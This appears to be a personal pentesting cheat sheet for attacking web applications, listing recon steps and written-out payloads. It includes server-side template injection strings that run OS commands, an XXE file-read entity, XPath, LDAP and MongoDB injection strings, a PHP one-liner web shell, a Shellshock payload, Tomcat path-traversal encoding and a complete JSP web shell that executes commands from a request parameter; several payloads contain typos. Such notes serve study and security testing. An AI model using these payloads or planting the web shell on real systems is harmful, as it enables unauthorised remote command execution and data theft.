 ```yaml
---
title: Web Application Methodology
date: 2021-09-19
categories:
  - Notes
tags:
  - Web App
  - Notes
excerpt_separator: <!--more-->
toc: true
toc_sticky: true
---
```


<h2 id="wtdvsawbapp">What to do vs a Web App</h2>

<ul>
    <li>check website is it php,asp or html</li>
    <li>check source code does it use cms</li>
    <li>Check robots.txt</li>
    <li>chech cert for useful info - subdomain?</li>
    <li>Gobuster dir and subdomain</li>
    <li>nikto</li>
    <li>Authorization vulns</li>
    <li>Code Injections? - can you control an input/data - eval(input)</li>
    <li>sqli? - https://www.hackingarticles.in/bypass-filter-sql-injection-manually/</li>
    <li>xxs?</li>
    <li>WIP</li>
    <li>SSRF</li>
    <li>Server-side template injection - {{''.__class__.mro()[1].__subclasses__()[X](COMMAND)}} or {{url_for.__globals__.os.popen("id").read() }}</li>
    <li>xml entities - <!DOCTYP3 test [
      <!ENTITY x SYSTEM "file:///etxc/paxswd">]></li>
      <li>xpath - hacker']%00 or hacker' or 1=1]%00 --- ?name=hacker' or 1=1]/parent::*/child::node()%00&password=sdf</li>
</ul>

<h2>ldap</h2>
<li>null bind - delete username&password data in body</li>
<li>ldap wildcard - adm*))%00</li>

<h2>mongodb</h2>
<li>injection? - hyst'|| 1==1 %00</li>


<h2>basic php oneliner</h2>
<code>php system($requests['hyst']); ?></code>



<h2>shellshock</h2>
<code>() { :;}; echo; `command`</code>
<p>echo to add a black space between headers and body output</p>

<h2>JWT</h2>
<p>header.data.signature - all in base64</p>

<h2>apache and tomcat</h2>
<p>encoding of .. = %252e%252e</p>
<p>/manager/html</p>

<fieldset>asd</fieldset>
<legend>webshell</legend>
<pre><code>
  <FORM METHOD=GET ACTION='index.jsp'>
  <INPUT name='cmd' type=text>
  <INPUT type=submit value='Run'>
  </FORM>
  <%@ page import="java.io.*" %>
  <%
     String cmd = request.getParameter("cmd");
     String output = "";
     if(cmd != null) {
        String s = null;
        try {
           Process p = Runtime.getRuntime().exec(cmd,null,null);
           BufferedReader sI = new BufferedReader(new
  InputStreamReader(p.getInputStream()));
           while((s = sI.readLine()) != null) { output += s+"</br>"; }
        }  catch(IOException e) {   e.printStackTrace();   }
     }
  %>
  <pre><%=output %></pre></code></pre>
g0tmilk
